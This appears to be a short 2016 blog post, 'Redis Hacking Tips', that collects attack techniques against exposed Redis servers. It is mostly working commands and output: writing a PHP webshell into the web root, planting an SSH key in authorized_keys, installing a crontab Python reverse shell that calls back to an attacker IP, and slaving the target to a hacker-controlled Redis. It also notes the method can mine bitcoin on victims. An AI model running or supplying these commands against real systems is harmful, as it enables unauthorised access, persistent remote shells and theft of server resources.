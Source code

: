 ```yaml
---
layout:     post
title:      "Redis Hacking Tips"
subtitle:   "collection"
date:       2016-09-20
author:     "Urahara"
header-img: "img/86a1b907d54bf7010394bf316e183e67.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - database	

---
```


### Get Webshell

​	You must know the physical path of the Web site 

```Bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​	If the webshell access exception, you can empty the database after backup and try again, remember to restore the database

### Get SSH--Crackit

1. Generate a ssh public-private key pair on your pc: **ssh-keygen -t rsa**

2. Write the public key to a file : **(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

3. Import the file into redis : **cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit**

4. Save the public key to the authorized_keys file on redis server : 

   ```Bash
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/test/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : **ssh -i id_rsa test@10.85.0.52**


### Get Reverse Shell—Crontab

```Bash
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

> The above command for Ubuntu, Centos need to be adjusted to：
>
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Master-Slave Moudle

​	The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```








